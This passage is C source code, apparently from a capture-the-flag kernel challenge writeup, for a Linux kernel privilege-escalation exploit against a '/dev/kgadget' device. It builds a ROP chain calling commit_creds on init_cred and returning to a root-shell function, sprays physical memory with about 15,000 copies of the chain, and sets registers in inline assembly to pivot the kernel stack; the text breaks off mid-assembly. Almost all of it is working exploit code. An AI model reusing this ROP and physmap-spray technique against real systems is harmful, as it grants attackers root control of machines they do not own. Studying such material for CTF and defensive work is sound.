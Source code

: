 ```c

    // gadget to trigger pt_regs and for slide
    for (; idx < (page_size / 8 - 0x30); idx++)
        rop[idx] = add_rsp_0xa0_pop_rbx_pop_r12_pop_r13_pop_rbp_ret;

    // more normal slide code
    for (; idx < (page_size / 8 - 0x10); idx++)
        rop[idx] = ret;

    // rop chain
    rop[idx++] = pop_rdi_ret;
    rop[idx++] = init_cred;
    rop[idx++] = commit_creds;
    rop[idx++] = swapgs_restore_regs_and_return_to_usermode;
    rop[idx++] = *(size_t*) "arttnba3";
    rop[idx++] = *(size_t*) "arttnba3";
    rop[idx++] = (size_t) getRootShell;
    rop[idx++] = user_cs;
    rop[idx++] = user_rflags;
    rop[idx++] = user_sp;
    rop[idx++] = user_ss;
}

int main(int argc, char **argv, char **envp)
{
    saveStatus();

    dev_fd = open("/dev/kgadget", O_RDWR);
    if (dev_fd < 0)
        errExit("dev fd!");

    page_size = sysconf(_SC_PAGESIZE);

    // construct per-page rop chain
    physmap_spray_arr[0] = mmap(NULL, page_size, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    constructROPChain(physmap_spray_arr[0]);

    // spray physmap, so that we can easily hit one of them
    puts("[*] Spraying physmap...");
    for (int i = 1; i < 15000; i++)
    {
        physmap_spray_arr[i] = mmap(NULL, page_size, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
        if (!physmap_spray_arr[i])
            errExit("oom for physmap spray!");
        memcpy(physmap_spray_arr[i], physmap_spray_arr[0], page_size);
    }

    puts("[*] trigger physmap one_gadget...");
    //sleep(5);

    try_hit = 0xffff888000000000 + 0x7000000;
    __asm__(
        "mov r15,   0xbeefdead;"
        "mov r14,   0x11111111;"
        "mov r13,   0x22222222;"
        "mov r12,   0x33333333;"
        "mov rbp,   0x44444444;"
        "mov rbx,   0x55555555;"
        "mov r11,   0x66666666;"
        "mov r10,   0x77777777;"
        "mov r9,    pop_rsp_ret;"   // stack migration again
```
